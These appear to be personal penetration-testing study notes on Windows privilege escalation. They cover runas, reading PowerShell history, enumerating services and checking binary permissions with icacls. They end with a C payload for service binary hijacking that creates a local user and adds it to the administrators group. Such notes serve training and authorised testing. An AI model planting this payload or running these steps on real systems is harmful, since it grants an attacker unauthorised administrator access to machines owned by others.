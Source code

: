 runas allows us to run a program as a different user.

`runas /user:backupadmin cmd`

check the powershell history of a user : 

```bash
Get-History
(Get-PSReadlineOption).HistorySavePath
```

# 2. Leveraging Windows Services
## 2.1. Service Binary Hijacking

To get a list of all installed Windows services, we can choose various methods such as the GUI snap-in `services.msc`, the `Get-Service` Cmdlet, or the `Get-CimInstance` Cmdlet (superseding `Get-WmiObject`).

```bash
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

enumerate the permissions on both service binaries. We can choose between the traditional `icacls` Windows utility or the PowerShell Cmdlet `Get-ACL`.

|Mask	|Permissions|
|---|---|
|F	|Full access|
|M	|Modify access|
|RX	|Read and execute access|
|R	|Read-only access|
|W	|Write-only access|

```bash
icacls "C:\xampp\apache\bin\httpd.exe"
```

```C
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
